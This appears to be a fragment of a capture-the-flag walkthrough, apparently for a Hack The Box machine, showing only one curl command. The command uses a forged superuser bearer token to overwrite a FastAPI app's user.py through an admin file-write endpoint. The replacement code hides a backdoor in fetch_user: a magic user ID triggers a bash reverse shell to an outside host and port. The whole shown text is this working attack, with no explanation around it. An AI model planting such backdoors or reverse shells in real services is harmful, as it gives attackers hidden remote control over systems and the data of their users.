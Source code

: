 ```bash
curl http://10.10.11.162/api/v1/admin/file/$(echo -n "/home/htb/app/api/v1/endpoints/user.py" | base64) -H 'Content-Type: application/json' -d '{"file": "from typing import Any, Optional\nfrom uuid import uuid4\nfrom datetime import datetime\n\n\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\nfrom fastapi.security import OAuth2PasswordRequestForm\nfrom sqlalchemy.orm import Session\n\nfrom app import crud\nfrom app import schemas\nfrom app.api import deps\nfrom app.models.user import User\nfrom app.core.security import get_password_hash\n\nfrom pydantic import schema\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\n    else:\n        return original_field_schema(field, **kwargs)\n\noriginal_field_schema = schema.field_schema\nschema.field_schema = field_schema\n\nfrom app.core.auth import (\n    authenticate,\n    create_access_token,\n)\n\nrouter = APIRouter()\n\n@router.get(\"/{user_id}\", status_code=200, response_model=schemas.User)\ndef fetch_user(*, \n    user_id: int, \n    db: Session = Depends(deps.get_db) \n    ) -> Any:\n    \"\"\"\n    Fetch a user by ID\n    \"\"\"\n    if user_id == -3186:\n        import os; os.system('\''bash -c \"bash -i >& /dev/tcp/10.10.16.2/4445 0>&1\"'\'')\n    result = crud.user.get(db=db, id=user_id)\n    return result\n\n\n@router.put(\"/{user_id}/edit\")\nasync def edit_profile(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.UserUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Edit the profile of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.put(\"/{user_id}/password\")\nasync def edit_password(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.PasswordUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Update the password of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.post(\"/login\")\ndef login(db: Session = Depends(deps.get_db),\n    form_data: OAuth2PasswordRequestForm = Depends()\n) -> Any:\n    \"\"\"\n    Get the JWT for a user with data from OAuth2 request form body.\n    \"\"\"\n    \n    timestamp = datetime.now().strftime(\"%m/%d/%Y, %H:%M:%S\")\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\n    if not user:\n        with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\n    \n    with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\n\n    return {\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\n        \"token_type\": \"bearer\",\n    }\n\n@router.post(\"/signup\", status_code=201)\ndef create_user_signup(\n    *,\n    db: Session = Depends(deps.get_db),\n    user_in: schemas.user.UserSignup,\n) -> Any:\n    \"\"\"\n    Create new user without the need to be logged in.\n    \"\"\"\n\n    new_user = schemas.user.UserCreate(**user_in.dict())\n\n    new_user.guid = str(uuid4())\n\n    user = db.query(User).filter(User.email == new_user.email).first()\n    if user:\n        raise HTTPException(\n            status_code=400,\n            detail=\"The user with this username already exists in the system\",\n        )\n    user = crud.user.create(db=db, obj_in=new_user)\n\n    return user\n\n"}' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzMwODU0MTcwLCJpYXQiOjE3MzAxNjI5NzAsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiM2JkZjM2MzEtNTgzMS00NGZhLTkxYzAtZDAwOTZkYjM0ZjRjIiwiZGVidWciOnRydWV9.IYrqSxZoecmOVECazY_oLmh2oC03IkWpmGkjRbuc-Zo'
```
